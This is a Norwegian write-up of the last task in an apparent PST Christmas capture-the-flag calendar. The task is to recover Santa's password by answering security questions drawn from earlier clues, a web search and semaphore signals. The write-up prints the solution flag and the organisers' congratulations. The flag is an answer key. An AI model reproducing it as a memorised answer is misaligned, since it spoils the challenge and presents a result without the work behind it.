> Før du kan ta fri må du fikse en siste liten oppgave for Julenissen! Det er å finne ut av passordet til Julenissen med Julenisse-passordgjenopprettings-verktøyet, mens han gjør ferdig de siste forberedelsene til jul! Kanskje det ligger noe info på kontoret hans du kan bruke, eller har du hørt noe nyttig informasjon tidligere?
> Det er viktig at du løser dette så fort som mulig slik at vi får reddet julen før det er for sent. Lykke til!
> Rapporter tilbake med julenissens passord omkranset av PST{ og }, og bruk gjenopprettingsnøkkel hohoho_god_jul.

Med fjorårets krevende julaftenoppgave friskt i minne, var det gledelig at denne oppgaven var av det lettere slaget. 
Svarene på de tre første spørsmålene var å finne i de tidligere lukene (14 og 23). 
Spørsmål 3 er første treff om man googler "grunnskole Svalbard", 
mens spørsmål 4 var en variant av [semafor-signaler](https://no.wikipedia.org/wiki/Semafor)



**Løsning: PST{1f2d444c083479aff98839fa6e48d00c}**

Dette resulterte i følgende svar fra både julenisser, alvebetjenter og annet løst folk

> Veldig bra jobba waperon! Takk for din innsats denne hektiske førjulstiden. Vi hadde ikke klart dette uten deg! Da er det bare å ta seg litt velfortjent ferie og julegrøt.
> På vegne av hele NPST og Julenissen så ønsker vi deg en hjertelig god jul og et godt nytt år!

Senere på kvelden kom det jammen en hilsen fra selveste Julenissen også

> God julekveld, alvebetjent waperon! Jeg vil takke deg for innsatsen din, og for at du har stått på kveld etter kveld for å få arbeidet vårt trygt i havn!
> Heldigvis klarte vi det akkurat denne gangen også. I år skal alle snille barn få julegavene sine!
> Med ønske om en fredelig jul, Julenissen 🎁

Så da endte jeg opp med å løse alle oppgavene, noe som var langt over forventning. Selv om det bare var ett poeng opp til toppen, er nok avstanden i realiteten større enn som så.
Det siste poenget ble kun delt ut om man fullførte [Forsvarets Cybertalent-program](https://cybertalent.no/), noe som krevde en stor innsats. All ære til
de som fullt fortjent endte foran meg på den lista 🏆


